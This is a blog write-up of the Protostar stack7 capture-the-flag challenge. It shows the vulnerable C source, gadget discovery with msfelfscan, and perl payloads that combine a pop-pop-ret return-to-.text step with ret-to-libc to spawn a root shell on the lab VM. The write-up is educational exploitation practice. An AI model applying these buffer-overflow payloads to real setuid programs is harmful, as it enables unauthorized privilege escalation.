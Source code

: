 ```yaml
---
layout: post
title:  "Protostar Stack7 challenge"
date:   2018-05-04 10:05:36 +0530
categories: exploit-exercises protostar stack7
---
```

[Stack7][stack7-link] is the last challenge in the [Protostar][protostar-link] series of challenges.
The source code for this challenge is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
    char buffer[64];
    unsigned int ret;
    printf("input path please: "); fflush(stdout);
    gets(buffer);
    ret = __builtin_return_address(0);
    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }
    printf("got path %s\n", buffer);
    return strdup(buffer);
}
int main(int argc, char **argv)
{
    getpath();
}
{% endhighlight %}
We see there is a check for return address `ret` starting with `0xb`. If we remember from our attempt at solving [stack6][stack6-proto-link] the return address check has further been broadened from addresses starting with `0xbf` to `0xb`. This would mean that we cannot use `Return to libc` technique to solve this challenge. Since the libc `system` and `exit` calls had addresses starting with `0xb` we cannot use them in this challenge. This challenge description mentions using `return to .text`. A quick google search pointed to this being a sort of `return oriented programming` technique. Now it had been some time since I had studied about `ROP` so this [coursera-rop-video][courser-rop-video-link] was a nice refresher on basics of the technique.
I used `metasploit` to find the location of `gadgets` to be used for `ROP`. I copied the executable of stack7 to ubuntu machine where `metasploit` was installed for finding the address of gadgets.
{% highlight shell %}
VirtualBox:~$ msfelfscan --help
Usage: /opt/metasploit-framework/bin/../embedded/bin/msfelfscan [mode] <options> [targets]
Modes:
    -j, --jump [regA,regB,regC]      Search for jump equivalent instructions
    -p, --poppopret                  Search for pop+pop+ret combinations
    -r, --regex [regex]              Search for regex match
    -a, --analyze-address [address]  Display the code at the specified address
    -b, --analyze-offset [offset]    Display the code at the specified offset
Options:
    -A, --after [bytes]              Number of bytes to show after match (-a/-b)
    -B, --before [bytes]             Number of bytes to show before match (-a/-b)
    -D, --disasm                     Disassemble the bytes at this address
    -I, --image-base [address]       Specify an alternate ImageBase
    -h, --help                       Show this message
{% endhighlight %}
Since `poppopret` type gadgets were used in video tutorial link i tried to search executable for them.
{%h ighlight shell %}
VirtualBox:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
{% endhighlight %}
So we have three poppopret gadgets available to us. Let us use first one at `0x08048492`. So our return address will be `0x08048492` this time. Since this gadget has two `pop` instructions, the next two values in payload will be popped to respective registers and next value will be our next return address.
So payload should look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][next RET addr]`. Lets check if we're correct in `protostar` VM image.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 . "D"x4 . "E"x100 ' > payload
user@protostar:~$ gdb /opt/protostar/bin/stack7
(gdb) r < payload
Starting program: /opt/protostar/bin/stack7 < payload
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCCDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info r
eax            0x804a008    134520840
ecx            0x0  0
edx            0x1  1
ebx            0x42424242   1111638594
esp            0xbffff7dc   0xbffff7dc
ebp            0x43434343   0x43434343
esi            0x0  0
edi            0x0  0
eip            0x44444444   0x44444444
eflags         0x210202 [ IF RF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/10s $esp
0xbffff7dc:  'E' <repeats 100 times>
0xbffff841:  ""
0xbffff842:  ""
0xbffff843:  ""
0xbffff844:  "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:  ""
0xbffff853:  ""
0xbffff854:  "\020\204\004\b"
0xbffff859:  ""
0xbffff85a:  ""
{% endhighlight %}
`info r` shows that `$ebx` register has been overwritten with B, `$ebp` has been with C and `$eip` the instruction pointer has been overwritten with DDDD ie `0x44444444`.
Since this value was used as return address we get a `SIGSEGV`.
Also `x/10s $esp` shows us that `$esp` now points to EEEE.... 
Now since we have passed the check for `RET` address we can user `ret-to-libc` technique further complete the exploit.
So we have space after second RET too. So if we want to implement this exploit using shellcode we can either put our shellcode where we have placed AAA or we can place it after second RET. Also we can try placing our shellcode in an enviromment variable and returning to it.
Repeating steps for [Stack6][stack6-my] we create an environemtn variable and get its address when running `stack7` and also get address of `system` and `exit` calls for `ret-to-libc`
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack7
EGG will be at 0xbffffa02
user@protostar:~$ gdb /opt/protostar/bin/stack7 
(gdb) b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
Breakpoint 1, main (argc=1, argv=0xbffff784) at stack7/stack7.c:28
28  stack7/stack7.c: No such file or directory.
    in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
So now our payload shall look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][system][exit][/bin/sh]`
Using perl to create payload combining `ROP` and `ret-to-libc` we are able to successfully spwan a shell
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 ."\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > payload
user@protostar:~$ (cat payload; cat) | /opt/protostar/bin/stack7
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCC�����`�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
[stack7-link]:https://exploit-exercises.com/protostar/stack7/
[protostar-link]:https://exploit-exercises.com/protostar/
[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[courser-rop-video-link]:https://www.youtube.com/watch?v=XZa0Yu6i_ew
[stack6-my]: https://rawatm.github.io/security/protostar/2018/04/22/protostar-exploit-exercises-stack6/